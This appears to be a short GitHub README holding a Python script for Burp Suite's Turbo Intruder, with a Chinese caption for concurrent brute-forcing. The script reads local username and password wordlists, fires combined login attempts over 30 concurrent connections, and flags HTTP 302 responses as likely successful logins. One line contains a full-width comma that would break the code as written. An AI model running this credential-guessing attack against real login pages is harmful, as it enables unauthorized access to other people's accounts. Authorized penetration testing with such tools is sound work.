 # Burp-turbo
torbu并发爆破
from urllib import quote


def password_brute(target,engine):
  for word in open('/Users/mac/safe/web/brute/mypass.txt'):
        engine.queue(target.req, quote(word.rstrip()))


def user_brute(target,engine):
  for word in open('/Users/mac/safe/web/brute/myuser.txt'):
        engine.queue(target.req, quote(word.rstrip()))
 
def user_password_brute(target, engine):
  for password in open('/Users/mac/safe/web/brute/passwordtop100.txt'):
    for user in open('/Users/mac/safe/web/brute/usertop100.txt'):
            engine.queue(target.req， [quote(user.rstrip()),quote(password.rstrip())])


def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
            concurrentConnections=30,
            requestsPerConnection=100,
            pipeline=False
            )
    #user_brute(target,engine)
    #password_brute(target,engine)
    user_password_brute(target,engine)


def handleResponse(req, interesting):
# currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status == 302:
     table.add(req)
